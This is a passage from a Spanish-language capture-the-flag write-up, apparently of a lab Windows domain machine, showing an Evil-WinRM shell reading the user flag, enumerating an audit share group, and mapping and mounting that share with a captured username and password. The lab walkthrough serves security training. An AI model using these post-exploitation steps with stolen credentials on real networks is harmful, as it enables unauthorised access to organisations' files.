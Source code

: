 Puedo visualizar la primera flag

```null
*Evil-WinRM* PS C:\Users\s.smith\Desktop> type user.txt
bc5dbc3a71e6158f70b16a8b5f7d196f
```

# Escalada

Este usuario pertenece al grupo Audit Share, y por tanto, puedo acceder al recurso que vi antes por LDAP

```null
*Evil-WinRM* PS C:\Users> net localgroup "Audit Share"
Alias name     Audit Share
Comment        \\Casc-DC1\Audit$

Members

-------------------------------------------------------------------------------
s.smith
The command completed successfully.
```

Creo una unidad lógica sincronizada con ese recurso para acceder a su contenido

```null
*Evil-WinRM* PS C:\Users> net use x: \\Casc-DC1\Audit$
The command completed successfully.

*Evil-WinRM* PS C:\Users> dir x:\


    Directory: x:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/28/2020   9:40 PM                DB
d-----        1/26/2020  10:25 PM                x64
d-----        1/26/2020  10:25 PM                x86
-a----        1/28/2020   9:46 PM          13312 CascAudit.exe
-a----        1/29/2020   6:00 PM          12288 CascCrypto.dll
-a----        1/28/2020  11:29 PM             45 RunAudit.bat
-a----       10/27/2019   6:38 AM         363520 System.Data.SQLite.dll
-a----       10/27/2019   6:38 AM         186880 System.Data.SQLite.EF6.dll
```

Creo una nueva montura en mi equipo para acceder a ese recurso

```null
mkdir /mnt/Cascade2
mount -t cifs //10.10.10.182/Audit$ /mnt/Cascade2 -o username=s.smith,password=sT333ve2,domain=cascade.local,rw
```

